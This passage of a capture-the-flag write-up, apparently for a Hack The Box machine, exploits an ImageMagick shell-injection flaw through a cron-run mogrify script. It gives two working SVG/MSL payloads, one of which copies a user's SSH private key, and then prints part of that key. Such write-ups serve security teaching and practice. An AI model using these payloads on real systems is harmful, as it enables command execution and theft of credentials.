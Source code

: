 Looking at the script we see that it convert images using `mogrify` which is part
of `ImageMagick`.


    :::text
    www-data@meta:/var/www/dev01.artcorp.htb/metaview$ cat /usr/local/bin/convert_images.sh
    <.htb/metaview$ cat /usr/local/bin/convert_images.sh
    #!/bin/bash
    cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
    pkill mogrify

There is also a vulnerability on `ImageMagick` that allow for
[shell injection](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html).

We write a new `svg` image that will echo the result of the `id` command in a
file and wait for the `cron` to execute (note that we can also execute the
command as `www-data` to validate the PoC).


    :::xml
    <image authenticate='ff" `echo $(id)> /dev/shm/test`;"'>
      <read filename="pdf:/etc/passwd"/>
      <get width="base-width" height="base-height" />
      <resize geometry="400x400" />
      <write filename="test.png" />
      <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
      <image xlink:href="msl:rce.svg" height="100" width="100"/>
      </svg>
    </image>

As the file was written we use a payload that will give us access to `thomas`'s
private SSH key.

    :::xml
    <image authenticate='ff" `cp /home/thomas/.ssh/id_rsa /dev/shm/; chmod 777 /dev/shm/id_rsa`;"'>
      <read filename="pdf:/etc/passwd"/>
      <get width="base-width" height="base-height" />
      <resize geometry="400x400" />
      <write filename="test.png" />
      <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
      <image xlink:href="msl:rce2.svg" height="100" width="100"/>
      </svg>
    </image>

We can then copy the key.

    :::text
    www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ cat /dev/shm/id_rsa
    cat /dev/shm/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAt9IoI5gHtz8omhsaZ9Gy+wXyNZPp5jJZvbOJ946OI4g2kRRDHDm5
    x7up3z5s/H/yujgjgroOOHh9zBBuiZ1Jn1jlveRM7H1VLbtY8k/rN9PFe/MkRsYdH45IvV
    qMgzqmJPFAdxmkD9WRnVP9OqEF0ZEYwTFuFPUlNq5hSbNRucwXEXbW0Wk7xdXwe3OJk8hu
    <SNIP>
